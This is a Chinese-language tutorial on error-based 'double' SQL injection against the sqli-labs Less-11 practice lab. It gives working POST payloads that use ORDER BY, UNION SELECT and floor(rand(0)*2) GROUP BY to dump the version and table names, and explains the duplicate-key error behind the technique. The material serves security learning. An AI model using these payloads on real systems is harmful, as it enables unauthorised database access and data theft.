

双注入
# SQL 注入之双注入
本篇使用双注入。
# 注入步骤
# 设置代理
还是 Less-11，我们挂上 BurpSuit 代理，然后 Send To Reapeater。
# 确定注入类型和列数
我们输入 1 + 单引号。 不报错
uname=1' %23&passwd=123456&submit=Submit |

输入 1 + 单引号 + %23
uname=1'" %23&passwd=123456&submit=Submit |
报错， " #' and password='123456' LIMIT 0,1 。
由 #号后面跟着个单引号，这就说明第一个 username 是使用单引号闭合的。
使用 order by n 确定列数
输入 2，不报错
uname=1' order by 2 %23&passwd=123456&submit=Submit |
输入 3，报错
uname=1' order by 3 %23&passwd=123456&submit=Submit |
综上，注入类型是 POST 型单引号注入，且查询列数为 2。
采用双注入时，我们需要使用到以下函数：
group by 函数：在对数据进行分组时会先看虚拟表中是否存在这个值，不存在就插入； |
使用 group by floor (rand () *2)
uname=1' union select 1,2 from information_schema.tables group by floor(rand()*2) %23&passwd=123456&submit=Submit |
可以看到，uname 和 password 位都被 select 的内容（1 和 2）代替。
下面探究 group by、rand ()、count () 的组合使用的关系。
# 灵魂拷问一：rand () 和 rand (0) 有什么区别？
使用 rand() *2 ， 第一次 。
使用 rand() *2 ， 第二次 。

使用 rand() *2 ， 第三次 。
综合以上三次使用 rand ()*2 的情况，我们发现结果毫无规律，是真正的随机。
使用 rand(0) *2 ， 第一次 、 第二次 、 第三次 都是下图：
结果说明，使用 rand (0)*2 可以做到一种伪随机变化，会一直保持 011 011 011 这样的规律。
# 灵魂拷问二：为什么 select 1, count (1) from xxx group by floor (rand (0) * 2) 会报错？
我们需要知道先创建虚拟表，以下图 (其中 key 是 group by 后面跟随的内容【即主键】，不可重复)
开始查询数据，取数据库数据，而后查看虚拟表中是否存在主键，不存在则插入新记录，存在则 count (1) 字段直接加 1，
由此看到 若是 key 存在的话就 + 1， 不存在的话就新建一个 key。
但是 mysql 官方有给提示，查询的时候若是使用了 rand () 的话，该值会被计算屡次，这个【计算屡次】是什么意思？就是在使用 group by 的时候，floor (rand (0)*2) 会被执行一次，若是虚表不存在这个记录，插入虚表的时候会再被执行一次。
由前文可知，floor (rand (0)*2) 的值是 011011011… 的规律。
取第一条记录，取到的值是 0【 第一次计算 】。
判断 ：虚表中发现 0 这个键值并不存在，那么，floor (rand (0)*2) 会被再次计算一次
结果取到了 1【 第二次计算 】。将 key=1 插入虚表，这是第一条记录查询完毕。
查询第二次记录，再次计算 floor (rand (0)*2)，发现结果为 1【 第三次计算 】。
查询虚表，发现 1 这个键值已经存在，因此 floor (rand (0)*2) 不会再次计算，直接 count (1) 加 1，第二条记录查询完毕。
查询第三条记录，再次计算 floor (rand (0)*2)，取值为 0【 第四次计算 】，查询虚表，发现键值没有 0，则再次计算 floor，取值为 1【 第五次计算 】
而此时，1 这个主键已经存在于虚表中，新计算的值也为 1【 第五次计算 】，由于插入的 key 主键值必须唯一，新计算的 1 和主键 1 重复，因此插入的时候直接报错。
# 灵魂拷问三：选择 rand (0) 而非 rand () 的原因
简而言之，group by 插入进 <key，count (1)> 虚表的前提是 —— 当前的记录在虚表中不存在 。
白话文解释：当前的记录由于 011011011 这特殊规律导致 0 这个记录的在表中不存在，计算时总是被取值成 1 插入虚表，第一次还能插进来，但在第二次新插入进来的 1 又存在于虚表中，所以就报 “重复条目 “的错了。
选择 rand(0)x2 是必会报错，而 rand()x2 就不一定了【可能报错、可能不报错】。
因为通过上文解释，如果不是 011011 这个特殊规律，0 和 1 是都可以进到虚表中，如果都能进来，那就不会报错。
因此，100% 报错须要 count ()，rand (0)*2、group by，三者缺一不可。
# 双注入走起
首先使用 concat 组合字符串
uname=1' union select 1,count(1) from information_schema.tables group by concat(floor(rand(0)*2), version()) %23&passwd=123456&submit=Submit |
将 version 处替换成我们想要的 select 语句【注意，这里只能使用 limit 0,1 来进行输出爆破，group_concat 会爆出数据库信息失败】
uname=1' union select 1,count(1) from information_schema.tables group by concat(floor(rand(0)*2), (select table_name from information_schema.tables where table_schema=database() limit 0,1)) %23&passwd=123456&submit=Submit |

至此，双注入演示完毕。